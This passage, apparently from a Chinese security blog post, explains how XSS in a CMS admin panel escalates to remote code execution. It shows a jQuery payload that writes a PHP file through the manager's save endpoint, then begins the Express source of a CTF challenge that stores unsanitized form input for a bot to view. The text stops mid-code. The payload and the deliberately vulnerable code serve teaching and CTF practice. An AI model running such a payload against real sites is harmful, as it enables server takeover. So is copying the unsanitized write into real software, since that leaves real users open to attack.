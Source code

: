 ```bash
$.get('/manager/?a=1', function(d) {
  let p = $(d).contents().find('input[name="path"]').val();
  let postData = {
    a: 1,
    mode: 'save',
    path: p + '/index.php',
    content: '<?php phpinfo(); ?>'
  };

  $.ajax({
    url: '/manager/index.php',
    type: 'POST',
    contentType: 'application/x-www-form-urlencoded',
    data: postData
  });
});
```

也是可以很容易就进行 rce

当然在 ctf 上也很愿意用这种作为考点，比如华为杯研究赛国赛中这道 startschool

```bash
const express = require('express');
const path = require('path');
var fs = require('fs');
const bodyParser = require('body-parser');
var bot = require('./bot')


const app = express();

app.engine('html',require('express-art-template'))

app.use(express.static('public'));
app.use(bodyParser.json())
app.use(bodyParser.urlencoded({extended: false}))


data_path = "data.html";

//主页
app.get('/', function(req, res) {
    res.sendFile(path.join(__dirname, 'public/index.html'));
});


app.post('/do', function(req, res) {
    fs.writeFile('data.html'," 姓名："+req.body.name+"<br\> 年龄："+req.body.age+"<br\> 专业："+req.body.subject+"<br\> 邮箱："+req.body.mail+"\n",function(error){
        console.log("wriet error")
    });
    bot.visit();
    res.send("<script>alert('提交成功');window.location.href = '/';</script>");
});


app.route('/view')
  .get(function(req, res) {
    res.sendFile(path.join(__dirname, data_path));
  })
  .post(function(req, res) {
    fs.writeFile('data.html'," 姓名："+req.body.name+"<br\> 年龄："+req.body.age+"<br\> 专业："+req.body.subject+"<br\> 邮箱："+req.body.mail+"\n",function(error){
```